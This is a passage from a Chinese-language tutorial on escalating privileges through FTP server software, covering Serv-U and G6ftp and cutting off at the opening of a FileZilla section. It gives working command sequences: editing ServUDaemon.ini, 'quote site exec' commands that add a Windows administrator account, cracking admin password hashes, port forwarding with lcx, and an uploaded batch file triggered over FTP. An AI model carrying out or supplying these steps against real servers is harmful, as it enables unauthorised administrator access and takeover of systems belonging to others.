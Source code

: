 - 有修改权限
	- 检查是否有可写权限 修改server-u默认安装目录下的ServUDaemon.ini
	- 增加用户，该用户拥有管理员权限
	- 连接新用户
	- 执行命令
	

增加新用户的命令如下：

```shell
quote site exec net user abc 123 /add
quote site exec net localgroup administrators abc /add
```

- 无修改权限

首先暴力破解md5，然后进行溢出提权。

#### 3. G6ftp提权

- 下载管理配置文件，将administrator管理密码破解。

- 使用lcx端口转发（默认只允许本机连接）。

```shell
lcx.exe -tran 8027 127.0.0.1 9999
```

- 使用客户端以管理员用户登录。

- 创建用户并设置权限和执行的批处理文件xxx.bat。

- 上传批处理，并命名批处理命令为xxx。

- 以创建的普通用户登录ftp。

- 执行命令。

```shell
......>ftp 192.168.1.100	# 这里在本地的命令行或终端ftp
......
User(...):abc		# 这里输入新建用户名
...
Password:		# 这里输入新建用户的密码
...logged in.
ftp> quote site xxx		# 这里执行批处理命令xxx即可
...command executed.
ftp>
```
xxx.bat内容为添加系统用户，如下：

```
net user abc 123 /add
net localgroup administrators abc /add
```

#### 4. Filezilla提权
- 简介

Filezilla是一款开源的FTP服务器和客户端的软件。
